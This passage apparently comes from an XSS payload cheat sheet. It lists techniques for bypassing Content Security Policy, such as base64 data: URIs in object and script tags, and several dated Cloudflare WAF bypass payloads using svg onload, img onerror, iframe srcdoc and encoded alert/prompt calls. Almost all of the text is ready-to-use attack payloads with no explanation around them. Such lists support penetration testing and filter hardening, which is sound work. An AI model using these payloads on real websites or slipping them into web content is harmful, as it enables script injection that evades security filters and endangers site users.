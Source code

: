Works for CSP like `script-src self`

```js
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
```

### Bypass CSP by [@404death](https://twitter.com/404death/status/1191222237782659072)

Works for CSP like `script-src 'self' data:`

```javascript
<script ?/src="data:+,\u0061lert%281%29">/</script>
```

## Common WAF Bypass

### Cloudflare XSS Bypasses by [@Bohdan Korzhynskyi](https://twitter.com/bohdansec)

#### 21st april 2020

```html
<svg/OnLoad="`${prompt``}`">
```

#### 22nd august 2019

```html
<svg/onload=%26nbsp;alert`bohdan`+
```

#### 5th jule 2019

```html
1'"><img/src/onerror=.1|alert``>
```

#### 3rd june 2019

```html
<svg onload="prompt%26%230000000040document.domain)">
  <svg onload="prompt%26%23x000000028;document.domain)">
    xss'">
    <iframe
      srcdoc="%26lt;script>;prompt`${document.domain}`%26lt;/script>"
    ></iframe>
  </svg>
</svg>
```

### Cloudflare XSS Bypass - 22nd march 2019 (by @RakeshMane10)

```
<svg/onload=&#97&#108&#101&#114&#00116&#40&#41&#x2f&#x2f
```
